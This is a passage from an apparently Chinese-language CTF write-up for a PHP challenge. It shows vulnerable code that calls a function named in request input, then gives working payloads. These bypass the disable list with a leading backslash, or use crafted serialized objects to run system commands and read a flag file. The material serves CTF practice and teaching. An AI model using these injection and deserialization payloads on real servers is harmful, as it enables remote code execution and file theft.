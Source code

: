 ```php
        var $func = "date";
        function __destruct() {
            if ($this->func != "") {
                echo gettime($this->func, $this->p);
            }
        }
    }
    $func = $_REQUEST["func"];
    $p = $_REQUEST["p"];

    if ($func != null) {
        $func = strtolower($func);
        if (!in_array($func,$disable_fun)) {
            echo gettime($func, $p);
        }else {
            die("Hacker...");
        }
    }
    ?>
```



>  \ 绕过in_array()
>
> func=\system&p=cat $(find / -name flag*)
>
> 或者
>
> func=\exec&p=cat $(find / -name flag*)

> 反序列化
>
> func=unserialize&p=O:4:"Test":2:{s:1:"p";s:18:"find / -name flag*";s:4:"func";s:6:"system";}
>
> 然后进行cat 命令抓取flag
>
> func=unserialize&p=O:4:"Test":2:{s:1:"p";s:22:"cat /tmp/flagoefiu4r93";s:4:"func";s:6:"system";}
>
>  或者readfile读取flag文件
>
> func=readfile&p=/tmp/flagoefiu4r93
>
> 
>
> 或者类似exp的payload
>
> func=unserialize&p=O:4:"Test":2:{s:1:"p";s:25:"cat $(find / -name flag*)";s:4:"func";s:6:"system";}

## 

## [BUUCTF 2018]Online Tool
